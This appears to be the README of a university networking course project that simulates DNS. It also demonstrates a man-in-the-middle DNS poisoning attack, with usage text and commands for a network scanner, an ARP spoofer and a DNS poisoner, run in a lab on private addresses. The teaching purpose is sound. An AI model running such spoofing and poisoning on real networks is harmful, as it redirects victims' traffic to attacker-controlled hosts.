 # DNS simulation
<a href="https://www.uit.edu.vn/">
<p align="center">
  <img width="600" height="400" src="https://upload.wikimedia.org/wikipedia/commons/thumb/3/38/Logo_UIT_updated.jpg/800px-Logo_UIT_updated.jpg">
</p>

<p align="center">
  <img src="https://github.com/datthinh1801/NT106.DNS-simulation/actions/workflows/.github/workflows/python-app.yml/badge.svg"
</p>
</a>

This project is part of a university curriculum which is *Basic Networking Programming*.  

# Introduction
This project has 2 main features.  
1. Simulate DNS protocol  
2. Demonstrate a Man-In-The-Middle attack to poison DNS reponses from the **Resolver** to the **User**, this is called **DNS poisoning**.

## Dependencies
- `scapy` (for python 3.9)
- `dnspython` (for python 3.9)
- `netfilterqueue` (for python 2.7)

# Instruction
## DNS protocol simulation
### Resolver and Nameserver
In this project, **Resolver** and **Nameserver** are operated on the same machine, which we activate them in the `main.py`. Therefore, to run these components, just run the `main.py` file with the command `python3 main.py`.  
### User
In order for the **User** to make a query, run the `UserScript.py`.  
For more information, execute the script with `-h` option (`python3 UserScript.py -h`).  
```python
usage: .\UserScript.py [-h] -d [QNAME] [-t [QTYPE]] [-c [QCLASS]] --ip [IP] --port [PORT] [--protocol [PROTOCOL]]

Parse DNS arguments from CLI

optional arguments:
  -h, --help            show this help message and exit
  -d [QNAME], --domain [QNAME]
                        the domain name to be queried
  -t [QTYPE], --type [QTYPE]
                        the type of the query (A by default)
  -c [QCLASS], --class [QCLASS]
                        the class of the query (IN by default)
  --ip [IP]             IP address of the resolver
  --port [PORT]         port number that the resolver is listening
  --protocol [PROTOCOL]
                        tcp/udp (udp by default)
```

## DNS Poisoning
### Network Scanner
To be the man in the middle, we need to know the IP addresses of our 2 targets. For this reason, run the `Network_Scanner.py` script with the `-t` option to specify the IP range of the network that we want to scan.  
The outcome of this script will be the ***IP addresses*** as well as ***MAC addresses*** of **all hosts** in the targeted network.  
Use the `-h` option to see the help message.
```python
usage: Network_Scanner.py [-h] -t [TARGET]

optional arguments:
  -h, --help            show this help message and exit
  -t [TARGET], --target [TARGET]
                        IP address of a target host or an IP range of a target network
```
### ARP Spoofer
After having the IP addresses of our targets, run the `ARP_spoofer.py` script and specify the IP addresses of our 2 targets to start spoofing them. This spoof takes advantages of **ARP** to deceive both targets.  
For more information, use the `-h` option to see the help message.
```python
usage: ARP spoofer [-h] -t TARGET_IP -g GATEWAY_IP

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET_IP, --target TARGET_IP
                        the IP address of the target machine
  -g GATEWAY_IP, --gateway GATEWAY_IP
                        the IP address of the default gateway
```  
> Originally, this tool was developed to spoof a host and a default gateway. However, this can be run to spoof 2 arbitrary hosts on the same network. If that is the case, we can use `-t` and `-g` interchangeably to specify our 2 targets.  

### DNS Poisoner
Once we become the man in the middle, we can run `DNS_poisoner.py` to poison DNS response from Resolver to User.  
For more information, use the `-h` option to see the help message.
```python
usage: DNS poisoner [-h] -t TARGET DOMAIN [TARGET DOMAIN ...] -d
                   [DESTINATION IP ADDRESS] [-l [TRUE]]

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET DOMAIN [TARGET DOMAIN ...], --target-domains TARGET DOMAIN [TARGET DOMAIN ...]
                        Domain names that we want to poison
  -d [DESTINATION IP ADDRESS], --destined-domain [DESTINATION IP ADDRESS]
                        Our evil IP address that we want the victim to reach
  -l [TRUE], --local [TRUE]
                        Use this option if this script is run locally
```  
## Demonstration
We run the `main.py` on a machine whose IP address is `10.0.0.5`.  
Then, we'll receive logs as followed:
```bash
[SERVER]         Listening for UDP connections at 10.0.0.5:5252...
[SERVER]         Listening for TCP connections at 10.0.0.5:5353...
[RESOLVER]       Listening for clients' requests at 10.0.0.5:9292...
```  
We run the `UserScript.py` to make a query for `facebook.com`. Here, we run this script on a machine whose IP address is `10.0.0.7`.  

```bash
python3 UserScript.py -d facebook.com --ip 10.0.0.5 --port 9292
```  

The result in return is:  
```
facebook.com.;1;1;205;69.171.250.35
```  
> The last part of the reponse (`69.171.250.35`) is the IP address of `facebook.com`.  

In addition, if we examine the resolver's log, we can see a message specifying that the resolver has received a request from a user.  

```bash
[RESOLVER]       Receive a request for facebook.com;A;IN from ('10.0.0.7', 49775) using UDP
```
> If we want to specify the Resolver to make a query to the Nameserver via TCP, we need to execute the script with the `--protocol tcp` option.  


### Now, let's make our hands dirty 🤡  
First and foremost, as we already know the IP addresses of the machines that run the `main.py` and `UserScript.py`, it is unnecessary to run the `Network_Scanner.py`.  
Next, we need to run the `ARP_spoofer.py` to make us become the man in the middle between the Resolver and User.
```bash
sudo python3 ARP_spoofer.py -t 10.0.0.7 -g 10.0.0.5
# or
sudo python3 ARP_spoofer.py -t 10.0.0.5 -g 10.0.0.7
# either is ok
```
If the script is executed successfully, a successful message will be printed on the console.
```bash
[+] Spoof ['10.0.0.5'] and ['10.0.0.7'] successfully!
```

Finally, run our `DNS_poisoner.py`.
```bash
sudo python DNS_poisoner.py -t facebook.com google.com -d 10.0.0.10
```
Here, we specify the domains that we want to poison. In this example, we will poison any responses that carry the IP addresses of `facebook.com` and `google.com`.  
These IP addresses will be changed to the one specified by the `-d` option, which is `10.0.0.10` in this example.  
  
Now let's come back to the machine that runs `UserScript.py` and make a query for `facebook.com` again.
```bash
python3 UserScript.py -d facebook.com --ip 10.0.0.5 --port 9292
```

This time, the response is:  
```
facebook.com.;1;1;205;10.0.0.10
``` 
which carries the spoofed IP address specified by our `DNS_poisoner`.  
But if we make a query for `youtube.com`, the response is not poisoned (`youtube.com.;1;1;43;172.217.31.238`).  

# Contributors
<a href="https://github.com/datthinh1801/NT106.DNS-simulation/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=datthinh1801/NT106.DNS-simulation" />
</a>

Made with [contributors-img](https://contrib.rocks).
